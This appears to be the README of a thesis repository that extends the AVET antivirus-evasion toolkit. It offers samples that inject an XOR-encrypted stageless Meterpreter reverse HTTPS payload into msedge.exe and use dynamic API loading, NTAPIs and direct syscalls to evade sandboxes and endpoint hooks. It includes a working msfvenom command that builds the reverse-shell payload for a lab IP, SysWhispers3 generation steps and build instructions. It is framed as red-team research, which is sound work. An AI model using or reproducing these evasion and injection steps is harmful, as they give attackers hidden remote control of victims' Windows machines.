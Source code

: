 # Repository Overview

This repository hosts the implementation of Ayoub's Master Thesis, which explores Malware Obfuscation and Evasion Techniques. The primary focus is on developing methods to bypass the CAPEv2 sandbox.

The repository also enhances the AntiVirus Evasion Tool (AVET) with several notable improvements:

- Introduction of a script to build a **stageless** Meterpreter for performing a shellcode injections.
- Development of a shellcode injection method that identifies the **target process by name**, automatically determining the PID. This approach is more suitable for Red Teaming scenarios than the original AVET method, which required a *PID to be specified at the command line*.
- Addition of advanced shellcode injection techniques that use **dynamic API loading**.
- Implementation of a version that use **dynamic loading of NTAPIs**.
- Addition of a version that use **direct syscall**.
- Fixed a bug in the `static_from_here` function. Previously, this function included and called `static_from_file`. However, due to the use of `#pragma once`, macros defined specifically for `static_from_here` were not available in the scope of `static_from_file` if `static_from_file` was included before its invocation by `static_from_here`.

- A basic XOR custom encryption has been added to bypass static detection since the encryption performed by AVET are flagged by AV softwares.

Furthermore, the repository includes a custom xor encoder designed to enhance evasion capabilities, addressing the limitations of the existing AVET encoder that fails to hide the payload against AVs statically.

## Author

BOUHNINE Ayoub

## Repository Structure

The repository is organized as follows:

- **Custom Payloads:** Contains various custom payloads.
- **AVET Folder:** Hosts the AVET (AntiVirus Evasion Tool).
- **SysWhispers3 Folder:** Used for generating (or possibly statically embedding different payloads within AVET).

## Research Paper

The accompanying thesis paper is available for download in the [paper folder](./paper/thesis.pdf).

## Installing AVET

__The Installtion Instruction applies for Kali 64bit and tdm-gcc!__

You can use the setup script:
```bash
./setup.sh
```

This should automatically get you started by installing/configuring wine and installing tdm-gcc.
You'll shortly have to click through the tdm-gcc installer GUI though - standard settings should be fine.
The script will also ask if you want to install AVET's dependencies, which are needed to use some of the build scripts. The fetched dependencies will be put into separate folders next to the avet folder.


Dependencies will grab the latest releases of:
- [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [DKMC](https://github.com/Mr-Un1k0d3r/DKMC)


If for whatever reason you want to install wine and tdm-gcc manually:
- [How to install tdm-gcc with wine](https://govolution.wordpress.com/2017/02/04/using-tdm-gcc-with-kali-2/)

## Evasion Techniques

The samples, available on the directory `samples/` included in this repository use several evasion techniques:

- **Obfuscation:** A stageless Meterpreter x64 reverse HTTPS payload that both the x64/xor encoding from msfvenom and a custom basic XOR encryption. This technique is implemented in all the samples.
- **Shellcode Injection:** an injection of the Meterpreter payload is performed into **msedge.exe**, this could fool security solutions since Microsoft Edge regularly perform HTTPS request, therefore the Meterpreter traffic will be hidden with the regular Ms Edge traffic. This is implemented in all the samples.
- **Basic API calls:** This is not an evasion tehcniques however, the sample implemeting this will serve as a baseline for other sample. This is implemented in the sample `Shellcode_injection`.
- **Dynamic API Loading:** This is a basic method used to hide the APIs from the Import Address Table. This will resolve the APIs by loading them dynamically. This is implemented in the sample `Shellcode_injection_dynamic_lib`.
- **NTAPIs:** This is a more advances tehcniques where we load the NTAPIs instead of the classical APIs dynamically. This could potentially bypass security solutions that does not hook the `ntdll.dll`. This is implemented in the sample `Shellcode_injection_NTAPIs`.
- **Evasion of API Hooks by Direct Syscalls:** This tehcniqeus is used to bypass the API hooking of classical APIs and NTAPIs by using a Direct Syscalls technique. This is implemented in the sample `Shellcode_injection_syscalls`

These techniques have been integrated by the author within the AVET framework available on this repo. For syscall generation, the tool **SysWhispers3** is used, available at: [SysWhispers3 on GitHub](https://github.com/klezVirus/SysWhispers3).

## Modification of the payload

The payload used is stageless Meterpreter x64 reverse HTTPS payload that employs a basic XOR encryption is used. This has to be replaced if you want to use your payload with the right IP address.

## Utils

### XORing Meterpreter payloads

For xoring the payload we used the code available on `XOR_encryptor`.

To do so:
- Generate your payload using **msfvenom** : `msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.173.130 lport=443 -f c > payload.h`
- Take the file newly generated and give it as input to the executable `XOR_encryptor.exe`, this can be used with the following command : `.\XOR_encryptor.exe payload.h <output_file_name>` for example in our case the output filename is `buffer.h `
- Add the newly generated file into Visual Studio. Then include the file into the sample of your choice.
You should be ready to go !

In a kali machine, ensure you have `wine` installed, then you have to simply execute the command with `wine` as a prefix and you should have your XORed payload generated.

### For generating direct syscalls using Syswhisper3

In a Visual Studio Setup:

- move to the `syswhispers` directory
- `python.exe syswhispers.py --function NtOpenProcess,NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx -o output/syscall`
- Copy the generated H/C/ASM files into the project folder.
- In Visual Studio, go to Project → Build Customizations... and enable MASM.
- In the Solution Explorer, add the .h and .c/.asm files to the project as header and source files, respectively.
- Go to the properties of the ASM file, and set the Item Type to Microsoft Macro Assembler.
- Compile it

You should be ready to go !

Don't forget to properly call the functions generated `Sw3...()`

Sometimes some adjustement is needed to properly compile the project, make sure they are no redefinition of the same structures. The samples I provided are fully working  (they compile without any issue)

## Extension of AVET

This section outlines the scripts and files that have been added:

**In the `build/` directory:**
- `build_injectshc_xor_revhttps_stageless_win64.sh` ... [details here]
- `build_injectshc_custom_xor_revhttps_stageless_win64.sh` that has a custom XOR encryption ... [details here]

**In the `source/implementations/payload_execution_method` directory:**
- `inject_shellcode_procname.h` ... [details here]

**Note:**
- The `static_from_here.h` script from `source/implementations/retrieve_data/` has been modified to address the bug fix detailed earlier.
